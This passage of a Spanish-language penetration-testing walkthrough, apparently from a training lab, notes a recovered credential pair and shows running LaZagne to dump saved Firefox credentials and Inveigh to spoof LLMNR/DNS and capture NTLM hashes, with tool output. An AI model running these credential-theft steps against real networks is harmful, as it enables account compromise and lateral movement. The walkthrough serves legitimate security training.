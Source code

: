 Ahora tenemos un nuevo par de credenciales: `mssqladm:DBAilfreight1!`.

Antes de seguir, verifiquemos si hay otras credenciales. Vemos que Firefox está instalado, así que podemos usar la herramienta [LaZagne](https://github.com/AlessandroZ/LaZagne) para intentar volcar cualquier credencial guardada en el navegador. No tuvimos suerte, pero siempre vale la pena intentarlo.



```r
c:\Users\ilfserveradm\Documents> lazagne.exe browsers -firefox

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

[+] System masterkey decrypted for 6f898230-c272-4f85-875c-9f7b354ce485
[+] System masterkey decrypted for 9ccbb5e8-66c9-4210-a46c-a72e8f750734
[+] System masterkey decrypted for 08ed962e-44d9-4e2c-9985-392b699c25ae
[+] System masterkey decrypted for d4bfcc8b-5eec-485d-8adb-9ed4ae5656d6

[+] 0 passwords have been found.
For more information launch it again with the -v option

elapsed time = 3.29700016975
```

También vale la pena ejecutar [Inveigh](https://github.com/Kevin-Robertson/Inveigh) una vez que tengamos administrador local en un host para ver si podemos obtener hashes de contraseña para cualquier usuario.



```r
PS C:\Users\ilfserveradm\Documents> Import-Module .\Inveigh.ps1
PS C:\Users\ilfserveradm\Documents> Invoke-Inveigh -ConsoleOutput Y -FileOutput Y

[*] Inveigh 1.506 started at 2022-06-22T15:03:32
[+] Elevated Privilege Mode = Enabled
[+] Primary IP Address = 172.16.8.50
[+] Spoofer IP Address = 172.16.8.50
[+] ADIDNS Spoofer = Disabled
[+] DNS Spoofer = Enabled
[+] DNS TTL = 30 Seconds
[+] LLMNR Spoofer = Enabled
[+] LLMNR TTL = 30 Seconds
[+] mDNS Spoofer = Disabled
[+] NBNS Spoofer = Disabled
[+] SMB Capture = Enabled
[+] HTTP Capture = Enabled
[+] HTTPS Capture = Disabled
[+] HTTP/HTTPS Authentication = NTLM
[+] WPAD Authentication = NTLM
[+] WPAD NTLM Authentication Ignore List = Firefox
[+] WPAD Response = Enabled
[+] Kerberos TGT Capture = Disabled
[+] Machine Account Capture = Disabled
[+] Console Output = Full
[+] File Output = Enabled
[+] Output Directory = C:\Users\ilfserveradm\Documents
WARNING: [!] Run Stop-Inveigh to stop
[*] Press any key to stop console output
[+] [2022-06-22T15:04:05] TCP(445) SYN packet detected from 172.16.8.20:55623
[+] [2022-06-22T15:04:05] SMB(445) negotiation request detected from 172.16.8.20:55623
```